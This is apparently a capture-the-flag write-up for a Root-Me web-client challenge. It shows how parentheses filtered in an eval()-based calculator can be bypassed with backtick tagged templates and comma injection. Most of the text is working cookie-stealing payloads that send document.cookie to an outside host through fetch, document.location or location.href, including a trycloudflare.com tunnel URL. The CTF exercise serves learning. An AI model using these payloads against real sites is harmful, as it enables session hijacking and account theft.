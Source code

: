 In this challenge, `(` and `)` were blocked. However, this restriction can be easily bypassed using backticks `` ` ``.

Since the payload is executed within an eval() function, I can inject a second command using a comma.
```
2-1,alert`1`
```

Final payload:
```
2-1,fetch`https://my-server/?c=`.concat`document.cookie`
```
```
http://challenge01.root-me.org/web-client/ch34/?calculation=2-1%2Cfetch%60https%3A%2F%2Freaching-disease-technologies-night.trycloudflare.com%2F%3Fc%3D%60.concat%60document.cookie%60
```
**Alternative Payloads**
```
2-1,document.location=`https://my-server.com/?c=`%2bdocument.cookie
```
```
http://challenge01.root-me.org/web-client/ch34/?calculation=2-1,document.location=`https://reaching-disease-technologies-night.trycloudflare.com/?c=`%2bdocument.cookie
```

**Alternative Payloads**

JavaScript automatically converts between different data types. For example:
    

    1+1+[5*5] // result "225"

By leveraging this behavior, I can inject:

    1+1+[location.href='//my-server.com/?c='+document.cookie]
